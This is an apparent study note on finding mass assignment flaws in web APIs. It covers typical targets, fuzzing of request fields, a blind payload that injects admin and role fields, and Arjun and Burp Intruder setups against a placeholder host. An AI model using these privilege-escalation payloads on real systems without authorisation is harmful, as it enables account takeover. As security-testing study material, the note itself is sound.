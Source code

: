 occurs when an API consumer includes more parameters[`"isadmin": true`] in their requests than the application intended and the application adds these parameters to code variables or internal objects
common places to test for this vuln: Account registration, profile editing, user management, and client management, any update function such updating account, group, or company profiles;
##### to test for it all u need is find these parameters 
- find interesting parameters in API documentation and then adding those parameters to a request
- parameters involved in user account properties, critical functions, and administrative actions
- Intercept API requests and responses could also reveal parameters worthy of testing 
- fuzzing Unknown Variables: trigger actions from web app, intercept the request, then fuzz the values of that request, ex:
```json
{ "username": "hapi_hacker", "pass": "ff7ftw", "uam": 1, "mfa": true, account": 101}
 /* fuzz 'uam' from 0->1
fuzz mfa, and fuzz account from 0->101
*/
```
- Blind Mass Assignment:  Send a single request with many possible variables
```json
{ "username":"hAPI_hacker", 
 "email":"hapi@hacker.com", 
 "admin": true,  "admin":1,  "isadmin": true,  "role":"admin", "role":"administrator", "user_priv": "admin", 
 "password":"Password1!" }
```
##### Automating Mass Assignment Attacks
###### Arjun 
```bash
$arjun --headers "Content-Type: application/json]" -u http://vulnhost.com/api/register -m JSON --include='{$arjun$}'
# if you run into issues with rate limiting, use -stable 
```
- arjun can make lot of false positive, because of arjun narrow down likely parameters based on deviations of response lengths and response codes
- also sending one request with many parameters can cause: 400(Bad Request), 413(Payload Too Large), for this we can use **Burp suite intruder**
###### Burp suite intruder
```json
{ "username":"hAPI_hacker", 
 "email":"hapi@hacker.com", 
 §"admin": true§, 
 "password":"Password1!" 
 }
```
